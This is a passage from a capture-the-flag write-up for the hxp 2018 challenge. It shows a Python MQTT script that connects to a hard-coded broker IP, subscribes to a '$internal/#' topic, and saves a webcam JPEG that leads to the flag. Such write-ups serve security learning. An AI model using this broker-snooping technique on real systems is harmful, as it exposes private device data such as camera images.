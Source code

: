 ```python
#!/usr/bin/env python
import sys
import paho.mqtt.client as mqtt

def on_connect(client, userdata, flags, rc):
    print("Connected with result code "+str(rc))
    #client.subscribe("$SYS/#")
    client.subscribe("$internal/#")

def on_message(client, userdata, msg):
    #print(msg.topic+" "+str(msg.payload))
    with open("mqtt_out",'w+') as f:
        f.write(msg.payload)
        sys.exit()

client = mqtt.Client(client_id="#", clean_session=True, userdata=None, transport="websockets")
client.on_connect = on_connect
client.on_message = on_message

client.connect("195.201.136.29", 60805, 60)
client.loop_forever()
```

Running `file` on the output shows that it's a JPEG file.

![webcam](https://drtychai.github.io/assets/img/hxp-2018/h4x0rpsch0rr-mqtt-webcam.jpg)

This must be for the admin page!

```bash
hxp{Air gap your beers :| - Prost!}
```
